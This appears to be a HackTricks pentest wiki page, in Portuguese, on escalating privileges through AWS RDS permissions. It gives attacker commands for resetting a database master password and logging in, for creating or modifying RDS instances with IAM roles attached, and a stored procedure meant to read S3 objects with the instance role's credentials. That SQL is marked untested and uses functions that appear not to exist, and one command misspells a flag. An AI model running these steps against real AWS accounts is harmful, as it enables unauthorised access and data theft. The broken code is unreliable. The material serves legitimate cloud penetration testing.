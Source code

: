# AWS - RDS Privesc

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## RDS - Relational Database Service

Para obter mais informações sobre o RDS, consulte:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Com essa permissão, um invasor pode **modificar a senha do usuário mestre** e o login dentro do banco de dados:

```bash
# Obtenha o nome de usuário do banco de dados, o nome do banco de dados e o endereço
aws rds describe-db-instances

# Modifique a senha e aguarde alguns minutos
aws rds modify-db-instance \
    --db-instance-identifier <db-id> \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# No caso do postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
Você precisará ser capaz de **entrar em contato com o banco de dados** (geralmente eles só são acessíveis de dentro de redes).
{% endhint %}

**Impacto potencial:** Encontrar informações confidenciais dentro dos bancos de dados.

### rds-db:connect

De acordo com a [**documentação**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), um usuário com essa permissão pode se conectar à instância do banco de dados.

### Abuso de permissões IAM de função RDS

{% hint style="info" %}
TODO: Teste
{% endhint %}

É possível gerar um procedimento armazenado que abusa da função RDS para acessar outros serviços da AWS. Por exemplo, para ler um bucket S3:

```sql
DELIMITER $$
CREATE PROCEDURE get_s3_object(IN bucket_name VARCHAR(255), IN object_key VARCHAR(255))
BEGIN
    -- Use as variáveis de ambiente para definir as credenciais da AWS
    SET @aws_access_key_id = @@global.rds_aws_access_key_id;
    SET @aws_secret_access_key = @@global.rds_aws_secret_access_key;
    SET @aws_session_token = @@global.rds_aws_session_token;

    -- Defina o bucket S3 e a chave do objeto
    SET @bucket = bucket_name;
    SET @key = object_key;

    -- Leia o objeto do bucket S3
    SET @query = CONCAT("SELECT * FROM S3_OBJECT('",
                        "region=us-west-2;",
                        "bucket=", @bucket, ";",
                        "key=", @key, ";",
                        "access_key_id=", @aws_access_key_id, ";",
                        "secret_access_key=", @aws_secret_access_key, ";",
                        "session_token=", @aws_session_token, ";",
                        "')");

    PREPARE stmt FROM @query;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END$$
DELIMITER ;
```

Execute o procedimento armazenado para **ler o objeto do bucket S3**:

```sql
CALL get_s3_object('my-bucket', 'my-object-key');
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Teste
{% endhint %}

Um invasor com as permissões `rds:CreateDBInstance` e `iam:PassRole` pode **criar uma nova instância do RDS com uma função especificada anexada**. O invasor pode então potencialmente **acessar dados confidenciais** ou modificar os dados dentro da instância.

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto potencial**: Acesso a dados confidenciais ou modificações não autorizadas nos dados na instância do RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Teste
{% endhint %}

Um invasor com as permissões `rds:AddRoleToDBInstance` e `iam:PassRole` pode **adicionar uma função especificada a uma instância existente do RDS**. Isso pode permitir que o invasor **acessar dados confidenciais** ou modificar os dados dentro da instância.

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto potencial**: Acesso a dados confidenciais ou modificações não autorizadas nos dados na instância do RDS.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>